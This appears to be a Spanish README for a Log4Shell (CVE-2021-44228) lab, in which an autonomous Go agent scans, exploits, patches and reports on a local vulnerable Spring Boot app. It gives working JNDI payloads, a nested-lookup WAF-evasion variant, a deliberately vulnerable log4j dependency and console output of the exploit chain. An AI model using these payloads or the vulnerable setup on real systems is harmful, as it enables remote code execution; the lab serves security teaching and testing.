


p align="center">
  
</p>

<h1 align="center">🤖 AUTO AUDIT</h1>

<p align="center">
  <b>Laboratorio de demostración aislado de un agente ejecutor reactivo autónomo (Go/Java)</b>
</p>

<p align="center">
  <a href="README.md"><b>Русский 🇷🇺</b></a> • <a href="README.en.md"><b>English 🇬🇧</b></a> • <a href="README.zh.md"><b>中文 🇨🇳</b></a> • <a href="README.es.md"><b>Español 🇪🇸</b></a> • <a href="README.de.md"><b>Deutsch 🇩🇪</b></a> • <a href="README.it.md"><b>Italiano 🇮🇹</b></a> • <a href="README.ar.md"><b>العربية 🇸🇦</b></a>
</p>

<p align="center">
  <a href="https://golang.org"></a>
  <a href="https://openjdk.org"></a>
  <a href="https://maven.apache.org"></a>
  <a href="LICENSE"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
</p>

---

## 🧭 Descripción general

> [!NOTE]
> **AUTO AUDIT** es un sistema de software que demuestra un ciclo de **bucle cerrado 100% autónomo (Percibir-Pensar-Actuar)** de descubrimiento, validación, explotación, autorremediación (autocuración) y generación de informes de cumplimiento para la vulnerabilidad crítica **Log4Shell** (**CVE-2021-44228**).
>
> El sandbox genera una aplicación web de destino local construida en **Java Spring Boot**, un **receptor de llamadas LDAP TCP** (LDAP TCP Callback Listener) embebido y un núcleo cognitivo de **agente Go**, que coordina acciones en un entorno parcialmente observable (*Proceso de Decisión de Markov Parcialmente Observable — POMDP*).


```mermaid
%%{init: {
  'theme': 'dark',
  'themeVariables': {
    'background': '#0f172a',
    'primaryColor': '#1e293b',
    'primaryTextColor': '#cbd5e1',
    'primaryBorderColor': '#3b82f6',
    'lineColor': '#38bdf8',
    'secondaryColor': '#1e1b4b',
    'tertiaryColor': '#0f172a',
    'edgeLabelBackground': '#0f172a'
  }
}}%%
graph TD
    classDef sense fill:#0284c7,stroke:#0ea5e9,stroke-width:2px,color:#fff;
    classDef think fill:#4f46e5,stroke:#6366f1,stroke-width:2px,color:#fff;
    classDef act fill:#059669,stroke:#10b981,stroke-width:2px,color:#fff;
    classDef target fill:#dc2626,stroke:#ef4444,stroke-width:2px,color:#fff;

    subgraph Sense ["🔍 ANÁLISIS SENSORIAL (Percibir)"]
        A["Respuestas externas / Devoluciones de llamada TCP"]:::sense --> B("Actualizar Base de Conocimiento"):::sense
    end
    subgraph Think ["🧠 NÚCLEO COGNITIVO (Pensar)"]
        B --> C{"Calcular Política de Utilidad"}:::think
        C -->|Inferencia reflexiva| D["Seleccionar efector del registro"]:::think
    end
    subgraph subgraph_Act ["⚡ EJECUCIÓN (Actuar)"]
        D --> E["Ejecutar Tool.Execute"]:::act
        E -->|Impacto| F(("Objetivo Java Spring Boot")):::target
        F -.->|Canal fuera de banda (OOB)| A
    end
```

---

## 🛠️ Arquitectura técnica y componentes

La estructura de software del agente está desarrollada siguiendo la Arquitectura Hexagonal (Puertos y Adaptadores), y los principios SOLID y TDD:

* 📂 **[cmd/agent/main.go](cmd/agent/main.go)** — Punto de entrada (Entrypoint). Administra los ciclos de vida de los servicios en segundo plano y coordina el bucle principal del agente.
* 📂 **`internal/`** — Lógica de negocio principal del circuito cognitivo:
  * 🧠 **[agent/agent.go](internal/agent/agent.go)** — Motor cognitivo. Implementa la política de toma de decisiones y el bucle del agente.
  * 💾 **[core/model.go](internal/core/model.go)** — `KnowledgeBase` (LTM) segura para subprocesos (thread-safe) basada en un `sync.RWMutex`.
  * 🔌 **[core/effector.go](internal/core/effector.go)** — Interfaz `Tool` para efectores.
  * ⚙️ **[effectors/](internal/effectors/)** — Registro de efectores polimórficos (herramientas):
    * 🔍 `ToolPortScanner` — Reconocimiento y escaneo de puertos de red.
    * 🌐 `ToolDiscovery` — Mapeo de parámetros de la aplicación web y análisis de vectores de entrada (`X-Api-Version`).
    * 🔬 `ToolPayloadGenerator` — Sintetiza vectores de firma JNDI.
    * 🚀 `ToolProber` — Verificación de vulnerabilidades fuera de banda (OOB).
    * 🛡️ `ToolSemanticFuzzer` — Mutaciones de obcecación (Evasión de WAF) mediante búsquedas anidadas (nested lookups).
    * 🩹 `ToolRemediator` — Hot patching automatizado (autocuración).
    * 📄 `ToolReporter` — Generación de informes de auditoría de seguridad.
* 📂 **`pkg/`** — Módulos y utilidades compartidos:
  * 📡 **[oob/](pkg/oob/)** — Servidores LDAP y HTTP fuera de banda (OOB).
  * ☕ **[jvm/](pkg/jvm/)** — Administra el proceso de destino de simulación de Java local compilado.
* 📂 **[deployments/](deployments/)** — Contiene archivos de configuración de Docker y Compose.
* 📂 **[test/vulnerable-app/](test/vulnerable-app/)** — Microservicio objetivo vulnerable de Java Spring Boot.


---

## 🎯 Aparato matemático y especificación del bucle cognitivo (bucle Pensar-Actuar)

El proceso de toma de decisiones del agente se formaliza como un **Proceso de Decisión de Markov Parcialmente Observable (POMDP)**, representado por la tupla $\langle S, A, T, R, \Omega, O, \gamma \rangle$:
* $S$ es el espacio de estados discretos del entorno objetivo (accesibilidad de puertos, mapeo de parámetros de entrada, presencia de WAF, estado de compromiso, aplicación de parches, estado de la documentación de cumplimiento).
* $A$ es el espacio de acciones de los efectores (ejecución de herramientas: `port_scanner`, `discovery`, `payload_generator`, `prober`, `semantic_fuzzer`, `remediator`, `reporter`, `stop`).
* $\Omega$ es el espacio de observaciones (códigos de estado HTTP recibidos, devoluciones de llamada TCP OOB, eventos del sistema de archivos).
* $O(o \mid s', a)$ es la función de observación, que determina la probabilidad de recibir la observación $o \in \Omega$ después de ejecutar la acción $a$.

### 1. Representación del estado de creencia (Belief State)
El agente no tiene acceso directo al estado oculto $s \in S$ y opera sobre un estado de creencia $b(s)$ — una distribución de probabilidad sobre $S$, mantenida y actualizada dinámicamente dentro de la `KnowledgeBase` segura para subprocesos:
* $b(S_{recon}) \in \{0, 1\}$ — estado de reconocimiento de red (abierto/cerrado). Mapeado a `ToolPerformance["port_scanner"]`.
* $b(S_{discovery}) \in \{0, 1\}$ — estado de mapeo de vectores de entrada (si se encuentran las ubicaciones de los parámetros). Mapeado a `len(DiscoveryVectors) > 0`.
* $b(S_{payload}) \in \{0, 1\}$ — estado de preparación de la firma del exploit. Mapeado a `len(CustomPayloads) > 0`.
* $b(S_{exploit}) \in \{0, 1\}$ — estado de compromiso del objetivo (captura del botín). Mapeado a `len(Loot) > 0`.
* $b(S_{patch}) \in \{0, 1\}$ — estado de aplicación de parches en caliente (hot patch). Mapeado a `PatchApplied`.
* $b(S_{verify}) \in \{0, 1\}$ — estado de verificación de remediación. Mapeado a `PatchVerified`.
* $b(S_{report}) \in \{0, 1\}$ — estado de documentación de cumplimiento. Mapeado a `ReportGenerated`.

### 2. Mapeo de políticas (Policy Mapping)
El bucle de decisión central del agente `Think()` implementa una política determinista $\pi: B \to A$ que mapea el estado de creencia actual $b$ a la acción óptima del efector $a \in A$.

### 3. Aprendizaje adaptativo y utilidad del efector
Para cada herramienta $a \in A$, el agente acumula estadísticas de ejecución en `ToolStats` y calcula una métrica de utilidad (Puntuación de Eficiencia):

$$\text{EfficiencyScore}(a) = \frac{SuccessCount_a}{UsageCount_a}$$

Esto se aprovecha para la búsqueda adaptativa de rutas: si el intento inicial de explotación (`prober`) falla (lo que significa que $\text{EfficiencyScore}(\text{prober}) = 0$), el agente infiere el filtrado de WAF, cambia su estrategia para activar `semantic_fuzzer` para la obcecación del payload y vuelve a intentar la explotación.

### Ciclo de vida de ejecución paso a paso:

| Paso | Herramienta seleccionada | Acción y proceso subyacente | Cambios en el estado de creencia |
| :--- | :--- | :--- | :--- |
| **1** | `port_scanner` | Sonda el socket TCP en el puerto de destino `:8080`. | Puerto HTTP descubierto ($b(S_{recon}) = 1$). |
| **2** | `discovery` | Analiza las cabeceras y la estructura de la página. | Parámetro `X-Api-Version` identificado como un punto de entrada ($b(S_{discovery}) = 1$). |
| **3** | `payload_generator` | Construye la firma de explotación JNDI sin procesar. | Payloads actualizados con `\${jndi:ldap://127.0.0.1:1389/Exploit\}` ($b(S_{payload}) = 1$). |
| **4** | `prober` | Intento de explotación. El agente envía el payload. | Bloqueado por el WAF del objetivo. $\text{EfficiencyScore}(\text{prober}) = 0$. |
| **5** | `semantic_fuzzer` | Mutación de la firma mediante búsquedas anidadas (nested lookups). | Payload obsecado generado ($b(S_{payload}) = 1$, evasión de WAF). |
| **6** | `prober` | Entrega del payload del exploit con firma mutada. | El servidor LDAP captura la redirección TCP entrante. RCE confirmado ($b(S_{exploit}) = 1$). |
| **7** | `remediator` | Autorremediación. Parche en caliente de la configuración de la aplicación objetivo. | Propiedades de JVM reinicializadas con `-Dlog4j2.formatMsgNoLookups=true` ($b(S_{patch}) = 1$). |
| **8** | `prober` | Verificación (re-prueba). | El servidor LDAP monitorea el puerto de retorno. Conexión ausente $\rightarrow$ $b(S_{verify}) = 1$. |
| **9** | `reporter` | Escribe el informe de cumplimiento. | Informe de auditoría generado en `reports/cve_2021_44228_report.md` ($b(S_{report}) = 1$). |
| **10**| `stop` | Terminación. | Bucle completo. |

## 📊 Diagramas de flujo de algoritmos

### 1. Diagrama de flujo general del ciclo de vida del agente (bucle Percibir-Pensar-Actuar)
Este diagrama ilustra el ciclo de vida continuo en tiempo de ejecución del agente, comenzando desde la inicialización hasta la compilación del informe de cumplimiento y el cierre de la sesión.



### 2. Diagrama de flujo del algoritmo del núcleo de decisión (Think)
Este diagrama detalla la lógica de decisión precisa ejecutada por la función `Think()` en cada iteración del bucle, basada en el estado de creencia (Belief State) actual:



---

## 📦 Especificación de la aplicación Java vulnerable

La aplicación objetivo en `test/vulnerable-app/` es un controlador REST impulsado por **Spring Boot 2.7.18** con la dependencia heredada **Apache Log4j2**:

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version> <!-- Vulnerable version supporting JNDI lookup -->
</dependency>
```

El endpoint vulnerable registra las cabeceras HTTP sin sanitización:
```java
logger.info("[AUDIT] API Version header logged: {}", apiVersion);
```

Al recibir `${jndi:ldap://...}`, log4j core inicia la resolución LDAP al puerto del receptor `1389`.

---

## 🚀 Configuración e inicio

El laboratorio de simulación admite dos modos de implementación: ejecución local directamente en la máquina host (Opción A) o ejecución completamente contenedorizada en un entorno de red aislado utilizando Docker Compose (Opción B).

### Opción A. Lanzamiento local en la máquina host

#### Prerrequisitos
* **JDK 17+** (verificar mediante `java -version`)
* **Maven 3.8+** (verificar mediante `mvn -version`)
* **Go 1.21+** (verificar mediante `go version`)

#### 1. Compilar el microservicio Java objetivo
Compile la aplicación Java objetivo en un archivo fat JAR ejecutable:
```bash
cd test/vulnerable-app
mvn clean package
cd ../..
```
*Verifique que se haya creado `test/vulnerable-app/target/vulnerable-app-simple-1.0.0.jar`.*

#### 2. Compilar el payload del exploit
Compile la clase Java servida por el servidor web HTTP:
```bash
javac internal/payload/Exploit.java
```

#### 3. Compilar y ejecutar el sandbox autónomo
Ejecute el bucle principal de Go utilizando interpretación al vuelo (on-the-fly):
```bash
go run ./cmd/agent
```

O compile a un binario ejecutable independiente:
```bash
go build -o test_agent ./cmd/agent
./test_agent
```

---

### Opción B. Ejecución en un sandbox de contenedor aislado (Docker Compose)

> [!TIP]
> Este método no requiere instalar Go, Java o Maven en su máquina host. Toda la configuración del laboratorio se compila y ejecuta automáticamente dentro de una red virtual aislada subsegmentada en `172.20.0.0/16`.


#### Prerrequisitos
* **Docker** y el complemento **Docker Compose** instalados (verificar mediante `docker compose version`).

#### 1. Lanzar el laboratorio
Compile las imágenes de contenedor y genere los servicios con un solo comando desde la raíz del proyecto:
```bash
docker compose -f deployments/docker-compose.yml up --build
```

#### 2. Ciclo de vida y procesos internos:
* `vulnerable-app` compila la aplicación Spring Boot, monta directorios internos, escribe la bandera secreta en `/var/lib/secret/flag.txt` y sirve endpoints en el puerto `:8080`.
* `reflective-agent` compila la etapa del compilador de Go, compila `Exploit.java`, ejecuta los receptores LDAP/HTTP y lanza el bucle cognitivo.
* El directorio local `reports/` en el sistema de archivos de su host está montado en el contenedor del agente; el informe final de cumplimiento de GOST se almacena automáticamente en su carpeta de host en `reports/cve_2021_44228_report.md`.

#### 3. Detener el sandbox
Para limpiar los entornos de contenedores y liberar las configuraciones de red, ejecute:
```bash
docker compose -f deployments/docker-compose.yml down
```

---

## 📊 Ejemplo de salida de consola

```text
=== ДЕМОНСТРАЦИОННЫЙ СТЕНД РЕАКТИВНОГО АГЕНТА (JAVA SPRING TARGET) ===
[*] Запуск скомпилированного уязвимого Java Spring приложения локально...
[*] Ожидание инициализации веб-контекста Spring (3.5 сек)...
[*] Инициализация агента-исполнителя для цели: http://localhost:8080
================================================================
[ВЫВОД] Выбран инструмент: 'port_scanner' (Текущая фаза: Reconnaissance)
[ЭФФЕКТОР:port_scanner] Сканирование porta localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружен открытый HTTP-порт localhost:8080. Java Spring Web-служба отвечает.

[ВЫВОД] Выбран инструмент: 'discovery' (Текущая фаза: Discovery)
[ЭФФЕКТОР:discovery] Исследование структуры веб-приложения http://localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружены потенциальные векторы ввода: GET-параметр '/?input=' и HTTP-заголовок 'X-Api-Version'.

[ВЫВОД] Выбран инструмент: 'payload_generator' (Текущая фаза: Discovery)
[ЭФФЕКТОР:payload_generator] Анализ уязвимостей и синтез сигнатур...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирована сигнатурная нагрузка для CVE-2021-44228: '${jndi:ldap://127.0.0.1:1389/Exploit}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${jndi:ldap://127.0.0.1:1389/Exploit}' на http://localhost:8080...
[НАБЛЮДЕНИЕ] FAILURE: Атака не удалась. Уязвимость не эксплуатирована или флаг не перехвачен.

[ВЫВОД] Выбран инструмент: 'semantic_fuzzer' (Текущая фаза: Discovery)
[ЭФФЕКТОР:semantic_fuzzer] Запуск обфускации и семантического фаззинга против WAF...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирован обфусцированный вектор обхода: '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}' на http://localhost:8080...
[LDAP SERVER] Получен LDAP BindRequest. Отправка BindResponse...
[LDAP SERVER] Получен LDAP SearchRequest. Отправка JNDI Referral...
[HTTP SERVER] Получен запрос на загрузку Exploit.class
[HTTP SERVER] >>> ПЕРЕХВАЧЕН СЕКРЕТНЫЙ ФЛАГ: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026} <<<
[НАБЛЮДЕНИЕ] SUCCESS: LDAP Callback получен на порту 1389. RCE отработал. Перехваченный флаг: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026}.

[ВЫВОД] Выбран инструмент: 'remediator' (Текущая фаза: Remediation)
[ЭФФЕКТОР:remediator] Анализ причин уязвимости и генерация исправления для http://localhost:8080...
[ЭФФЕКТОР:remediator] Отправка команды применения патча на http://localhost:8080/remediate...
[НАБЛЮДЕНИЕ] REMEDIATION_SUCCESS: Патч применен. На целевое приложение отправлен запрос ремедиации (изменен флаг -Dlog4j2.formatMsgNoLookups=true). JVM успешно переинициализирована.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Verification)
[ЭФФЕКТОР:prober] Верификация патча: Повторная атака уязвимости на http://localhost:8080...
[НАБЛЮДЕНИЕ] VERIFICATION_SUCCESS: Попытка эксплуатации отклонена сервером. Входящий TCP-коллбек на порт 1389 отсутствует. Уязвимость успешно устранена.

[ВЫВОД] Выбран инструмент: 'reporter' (Текущая фаза: Verification)
[ЭФФЕКТОР:reporter] Формирование отчета об уязвимости по стандартам РФ для http://localhost:8080...
[НАБЛЮДЕНИЕ] REPORT_SUCCESS: Отчет успешно сгенерирован и сохранен в файл 'reports/cve_2021_44228_report.md'.

================================================================
[INFO] Жизненный цикл аудита, патчинга и комплаенса завершен.
```

---

## 📜 Políticas de cumplimiento y seguridad
El informe de cumplimiento generado en `reports/cve_2021_44228_report.md` se ajusta a los marcos clave de ciberseguridad:
* **GOST R 56939-2016** — Protección de la información. Desarrollo seguro de software.
* **Ley Federal N.° 152-FZ** Requisitos "Sobre datos personales".
* **Ley Federal N.° 187-FZ** "Sobre la seguridad de la infraestructura de información crítica de la Federación de Rusia".

---

## 🛡️ Licencia
Este proyecto está bajo la **Licencia MIT**. Consulte el archivo [LICENSE](LICENSE) para obtener más detalles.
